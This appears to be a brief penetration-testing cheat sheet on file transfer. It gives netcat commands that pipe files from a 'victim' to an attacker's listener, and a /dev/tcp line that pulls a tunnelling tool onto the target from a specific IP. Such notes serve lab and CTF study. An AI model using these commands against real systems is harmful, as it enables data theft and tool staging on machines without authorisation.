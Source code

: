 
## NC 
You can transfer files via netcat using setting up a listener on the box you want to receive the file like so;
`nc -lvnp 9001 > <FILE>`

On the system you want to extract files from, you can 
`nc <ATTACKING MACHINE 9001 < <FILE>`
or
`cat <file> | nc <ATTACKING MACHINE> 9001`


**You may need to terminate the nc listener receiving the file as it can hang and keep the connection active** 


## TCG you monster (/dev/tcp)
You can use `/dev/tcp` to transfer files in some janky horrid way
Host the file on your attack box like normal `nc -lvnp 9001 < <FILE>`

From the victim run 
`cat < /dev/tcp/<IP>/<PORT> > <FILENAME>`

`cat < /dev/tcp/10.11.41.83/9001 > chisel.b64`